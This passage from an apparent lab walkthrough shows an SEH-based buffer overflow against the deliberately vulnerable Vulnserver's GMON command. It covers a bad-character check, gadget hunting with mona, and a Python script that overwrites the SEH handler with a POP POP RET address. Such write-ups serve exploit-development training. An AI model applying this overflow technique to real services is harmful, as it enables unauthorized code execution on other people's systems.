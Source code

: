 Seems like we don’t have any bad characters, except ```x00``` which is also known as ```null byte``` (It’s always considered as a bad character while exploitation, often used to terminated string sequences)

## Redirecting code execution

As for now, we can control the ```SEH``` and also we have only one bad character ```x00```,

Since we can control SEH handlers, we can use this as our advantage to overflow it and redirect the code flow to any part of the memory where it is perfect to have shellcode execution along with our egg hunter

Lets find ```POP POP RET``` for abusing SEH to get perfect redirection using ```!mona seh```,

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-mona-seh.png">
</div>

Here we cam see there are 18 pointers with the ```POP POP RET``` gadget where security mitigations like ASLR is disabled for all pointers

This will be suitable for our exploitation, since the address of these gadgets will be ```static``` because ASLR is disabled and we can use any gadget for this exploit

Lets use the address of the first gadget, ```0x625010b4``` and overwrite the SEH 

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-gadget.py                
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
#payload+=b"C"*4
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62" #pop-pop-ret gadget
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-gadget.py
```

Here we can see that our ```SEH pointer``` is being filled by ```POP POP RET``` gadget address

Set a breakpoint at ```0x625010b4``` and proceed the execution with ```Shift+f9``` to check that we are hitting the gadget or not

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-overwrite-gadget.png">
</div>
